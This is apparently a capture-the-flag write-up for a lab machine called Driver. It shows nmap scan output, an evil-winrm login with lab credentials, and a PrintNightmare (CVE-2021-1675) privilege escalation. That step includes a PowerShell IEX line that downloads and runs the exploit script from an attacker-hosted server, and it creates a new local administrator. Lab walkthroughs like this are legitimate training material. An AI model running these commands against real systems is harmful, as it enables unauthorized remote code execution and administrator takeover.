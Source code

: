 ![image](PWND/Driver.png)

#Masscan - Nmap 
```
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h14m09s, deviation: 0s, median: 7h14m09s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-12T06:28:40
|_  start_date: 2021-10-11T22:46:25


SMB RELAY ATTACK
```

# Enumeration

using evil-winrm -i 10.10.11.106 -u tony -p liltony 

we got a shell as tony 
using upload /opt/<path2linumWin>
we noticed print spoolesv running 

so we can do print nightmare. 
/opt/windows/<printnightmare.

cd into printnightmare dir and set up a python server on any port. 
python3 -m http.server 8998

while you are loged into evil-winrm 

using this download method will inport the module atomatically, i tried to add it on my own and it gave scripts error. 


IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.2:8998/CVE-2021-1675.ps1')

once you download the file..

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\temp\test\v> Invoke-Nightmare -NewUser "AnonHack3r" -NewPassword "PwndByAnonHack3r"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user AnonHack3r as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\temp\test\v> net user

# PrivEsc
  
  use evil winrm and log into AnonHack3r account 

  net user Anonhack3r 

  you are Admin. 

  
